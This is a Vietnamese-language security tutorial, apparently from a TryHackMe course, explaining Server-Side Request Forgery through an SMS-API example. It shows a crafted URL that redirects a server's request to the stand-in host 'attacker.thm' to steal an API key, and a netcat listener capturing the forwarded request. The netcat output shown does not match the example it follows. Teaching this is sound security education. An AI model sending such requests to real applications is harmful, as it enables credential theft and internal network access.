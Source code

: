 # Server-Side Request Forgery (SSRF)

## **Giả mạo Yêu cầu phía Máy chủ (Server-Side Request Forgery - SSRF)**

Loại lỗ hổng này xảy ra khi kẻ tấn công có thể buộc một ứng dụng web gửi yêu cầu thay mặt chúng đến các đích tùy ý trong khi vẫn kiểm soát được nội dung của chính yêu cầu đó. Lỗ hổng SSRF thường phát sinh từ các triển khai mà ứng dụng web của chúng ta cần sử dụng các dịch vụ bên thứ ba.

### **Ví dụ**

Hãy nghĩ về một ứng dụng web sử dụng API bên ngoài để gửi thông báo SMS cho khách hàng của mình. Đối với mỗi email, trang web cần thực hiện một yêu cầu web đến máy chủ của nhà cung cấp dịch vụ SMS để gửi nội dung của tin nhắn cần gửi. Vì nhà cung cấp SMS tính phí cho mỗi tin nhắn, họ yêu cầu bạn thêm một khóa bí mật, mà họ đã gán trước cho bạn, vào mỗi yêu cầu bạn gửi đến API của họ. Khóa API đóng vai trò như một mã thông báo xác thực và cho phép nhà cung cấp biết ai sẽ thanh toán cho mỗi tin nhắn. Ứng dụng sẽ hoạt động như sau:

![image.png](<img/19.png>)

Nhìn vào sơ đồ trên, chúng ta dễ dàng nhận thấy lỗ hổng nằm ở đâu. Ứng dụng để lộ tham số `server` cho người dùng, tham số này xác định tên máy chủ của nhà cung cấp dịch vụ SMS. Nếu kẻ tấn công muốn, chúng có thể đơn giản thay đổi giá trị của `server` để trỏ đến một máy mà chúng kiểm soát và ứng dụng web của bạn sẽ vui vẻ chuyển tiếp yêu cầu SMS đến kẻ tấn công thay vì nhà cung cấp SMS. Là một phần của tin nhắn được chuyển tiếp, kẻ tấn công sẽ lấy được `API key`, cho phép chúng sử dụng dịch vụ SMS để gửi tin nhắn bằng chi phí của bạn. Để đạt được điều này, kẻ tấn công chỉ cần thực hiện yêu cầu sau đến trang web của bạn:

```jsx
https://www.mysite.com/sms?server=attacker.thm&msg=ABC
```

Điều này sẽ khiến ứng dụng web dễ bị tấn công thực hiện yêu cầu đến:

```jsx
https://attacker.thm/api/send?msg=ABC
```

Sau đó, bạn có thể chỉ cần nắm bắt nội dung của yêu cầu bằng Netcat:

**Bash**

```jsx
AttackBoxuser@attackbox$ nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
```

Đây là một trường hợp SSRF rất cơ bản. Nếu điều này có vẻ không đáng sợ lắm, SSRF thực sự có thể được sử dụng để làm nhiều hơn thế. Nói chung, tùy thuộc vào chi tiết cụ thể của từng tình huống, SSRF có thể được sử dụng để:

- Liệt kê các mạng nội bộ, bao gồm địa chỉ IP và cổng.
- Lạm dụng mối quan hệ tin cậy giữa các máy chủ và giành quyền truy cập vào các dịch vụ bị hạn chế.
- Tương tác với một số dịch vụ không phải HTTP để thực thi mã từ xa (RCE).

###